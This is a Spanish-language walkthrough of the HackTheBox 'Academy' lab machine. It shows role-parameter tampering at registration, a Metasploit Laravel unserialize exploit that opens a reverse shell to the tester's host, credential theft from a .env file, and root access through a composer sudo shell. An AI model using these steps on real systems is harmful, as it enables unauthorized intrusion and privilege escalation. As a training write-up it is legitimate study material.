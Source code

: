 ```yaml
---
layout      : post
title       : "Academy - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Academy-HackTheBox/Academy.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


En esta ocasión vamos a resolver una máquina Linux de nivel Easy en la que tocaremos un poco de Laravel, logs y escalaremos privilegios a través de un binario⚡

![](/assets/images/HTB/Academy-HackTheBox/rating-academy.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

# Reconocimiento de Puertos

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  tcpwrapped
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
3060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq
``` 



El escaneo nmap revela que tenemos un Servidor OpenSSH corriendo en el puerto 22.
También revela que tenemos el puerto 80 abierto en el cual corre un servidor Apache con una web bajo el nombre de "Hack The Box Academy".
Además tenemos el puerto 33060 en el cual corre un servidor MySQL.


# Enumeración Web

Al acceder a la web a través de la ip nos redirige a http://academy.htb, que lo añadiremos al archivo hosts


`` sudo echo "10.10.10.215 academy.htb" >> /etc/hosts ``


Una vez lo añadimos ya podemos acceder a la web.


![](/assets/images/HTB/Academy-HackTheBox/web.png)


Encuentro la opción Register en la que me creo una cuenta, una vez creada me encuentro con el panel en el que se ubican los modulos de HTB Academy, pero anda que pueda aprovechar.

![](/assets/images/HTB/Academy-HackTheBox/web2.png)


Pr lo tanto vuelvo hacia atrás y decido capturar la petición de registro con BurpSuite.

![](/assets/images/HTB/Academy-HackTheBox/burp1.png)


```burp
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://academy.htb/register.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://academy.htb
DNT: 1
Connection: close
Cookie: PHPSESSID=2qamfqs6cs7r1bsu9jktbf3hsu
Upgrade-Insecure-Requests: 1


uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=0
```

Si nos fijamos tenemos el parámetro `roleid`, que está fijado en 0, pero si lo cambiamos podemos ver si ocurre algo


```burp
uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=1
```

Si cambiamos el parámetro, enviamos la respuesta y abrimos la url [http://academy.htb/admin.php](http://academy.htb/admin.php) y nos logueamos con la cuenta que hemos creado y accedemos a la web como admin.

Encontramos cosas interesantes... 🤗

![](/assets/images/HTB/Academy-HackTheBox/web3.png)


``Complete initial set of modules (cry0l1t3 / mrb3n)``  --> Dos posibles usuarios

``Fix issue with dev-staging-01.academy.htb`` --> otro host

> Añadimos el host a al archivo hosts


`` sudo echo "10.10.10.215 dev-staging-01.academy.htb" >> /etc/hosts ``


Accedemos y encontramos un montón de errores.

![](/assets/images/HTB/Academy-HackTheBox/web4.png)


![](/assets/images/HTB/Academy-HackTheBox/web5.png)


Si nos fijamos bien veremos que aparece en mcuhas ocasiones la palabra `laravel`

Buscando exploits para PHP Laravel encuentro esto

``PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)                               | linux/remote/47129.rb``

Abro metasploit y procedo a configurar y lanzar el exploit

![](/assets/images/HTB/Academy-HackTheBox/metasploit.png)


Y lanzamos el exploit

```bash
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4441 
[*] Command shell session 1 opened (10.10.14.5:4441 -> 10.10.10.215:49452) at 2022-09-11 18:35:12 +0200
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

Tras enumerar durante un buen rato, encuentro en la ruta /var/www/html/academy/.env credenciales que podría servirnos para loguearnos a través de ssh.

```bash
www-data@academy:/var/www/html/academy$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

Probamos a loguearnos con el usuario cry0l1t3 que encontramos anteriormente en el servidor web.

`ssh cry0l1t3@10.10.10.215`

![](/assets/images/HTB/Academy-HackTheBox/user.png)


Si nos fijamos bien el usuario cry0l1t3 está dentro del grupo adm.


Realizando una breve búsqueda en internet encuentro la siguiente información

![](/assets/images/HTB/Academy-HackTheBox/escaladavertical.png)

Leemos los logs en busca de información y encuentro data en hexadcimal que voy decodeando poco a poco, hasta que encuentro una posible contraseña del usuario mrb3n

![](/assets/images/HTB/Academy-HackTheBox/hexadecimal.png)


```bash
$ su mrb3n 
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ whoami
mrb3n
```

A continuación ya debemos intentar escalar al usuario root, comenzando por la búsqueda de posibles vectores de escalada, entre ellos pruebo con `sudo -l`

![](/assets/images/HTB/Academy-HackTheBox/escaladaroot.png)


Como vemos tenemos el binario composer que podemos ejecutar como root.

Como de costumbre me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/composer/](https://gtfobins.github.io/gtfobins/composer/)

![](/assets/images/HTB/Academy-HackTheBox/gtfobins.png)

EJECUTAMOS LO SIGUIENTE 

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```



